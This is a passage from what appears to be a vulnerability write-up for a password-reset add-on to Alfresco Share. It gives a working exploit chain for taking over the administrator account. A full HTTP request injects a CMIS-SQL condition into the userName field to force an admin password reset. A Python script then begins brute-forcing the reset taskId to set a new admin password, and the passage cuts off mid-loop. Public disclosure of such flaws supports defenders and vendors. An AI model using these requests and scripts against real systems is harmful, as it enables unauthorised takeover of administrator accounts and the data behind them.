 PS: This step is not necessary, however it will save us a lot of time when bruteforcing!
### Step 2
In this step we will trigger a Password Reset for the **ADMIN** account, however since we don't have the Admin's email address, we will use the `CMIS-SQL Injection` vulnerability.

#### Admin Password Reset:

```http
POST /share/proxy/alfresco-noauth/com/flex-solution/reset-password HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/share/page/
X-Requested-With: application/json
Content-Type: application/json
Content-Length: 61
Connection: close
Cookie: JSESSIONID=C8207D808B749934EA6DACC4A1BF23A1; _alfTest=_alfTest

{
    "userName":"404-NotFound@amriunix.com' OR cm:userName like '%admin%"
}
```

Because the email `404-NotFound@amriunix.com` does not exist in the database and we inject `' OR cm:userName like '%admin%` in the **e-mail** input, this will makes the Reset Password add-on send and trigger a password reset event for the `admin` account.

### Step 3
So far, we have successfully:

- **Retrieve** the last `taskId` value.
- **Trigger** a Password Reset event for the `Admin` account.

Now we will run a python script to bruteforce the correct `taskId` value assigned to the `Admin` account.

```python
#!/usr/bin/python3

import requests
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

host = "https://target.com"
victimUser = "admin"
newPassword = "Le1m3in!"
retreivedTaskId = 70130 # Retrieved taskId


header = {
    'Host': 'target.com',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'Connection': 'close',
}


for i in range(1000):
    payload = {
```